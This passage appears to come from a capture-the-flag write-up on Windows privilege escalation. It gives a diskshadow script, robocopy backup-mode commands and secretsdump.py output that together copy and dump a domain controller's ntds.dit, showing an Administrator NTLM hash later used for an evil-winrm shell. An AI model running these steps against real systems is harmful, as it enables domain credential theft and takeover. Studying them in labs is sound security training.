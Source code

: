 Since we can save any file, let's try to save the Administrator's NTDS.dit file instead. There are a few walkthroughs out there on how to exploit this using `diskshadow`.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}

This would involve creating a Disk `Z:` that would contain the `ntds.dit` file that we want. Put this into a text file:

```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

Then, run `robocopy` to copy the `ntds.dit` file over amd download it.&#x20;

```
robocopy /b E:\Windows\ntds . ntds.dit
download ntds.dit
```

We can then use `secretsdump.py` again to read the hashes.&#x20;

```
$ secretsdump.py -ntds ntds.dit -system system LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

This time, the hash works and we can get a shell using `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>
